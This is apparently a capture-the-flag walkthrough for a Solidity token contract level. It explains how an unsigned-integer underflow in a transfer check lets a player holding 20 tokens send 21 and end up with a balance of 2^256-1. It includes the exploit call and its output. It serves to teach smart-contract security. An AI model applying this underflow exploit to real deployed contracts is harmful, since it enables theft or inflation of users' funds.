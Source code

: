 # Acquire more token than you should

When the `transfer` function prompted, `balances[msg.sender]` is 20 and `_value` is 21. 
 ```
 require(balances[msg.sender] - _value >= 0);
 ```

 This will cause when deduct `_value` from `balances[msg.sender]` underflow will occur
 ```
 balances[msg.sender] -= _value;
 ```

 When the function deduct 20 - 21 = 2^256 - 1 due to underflow

 We just need to transfer an amount of 21 to contract
 ```
 contract.transfer('0x0000000000000000000000000000000000000000' ,21)
 ```

 To verify we can check balance
 ```
 contract.balanceOf(player).then(x => x.toString())
 // Output: 115792089237316195423570985008687907853269984665640564039457584007913129639935
 ```



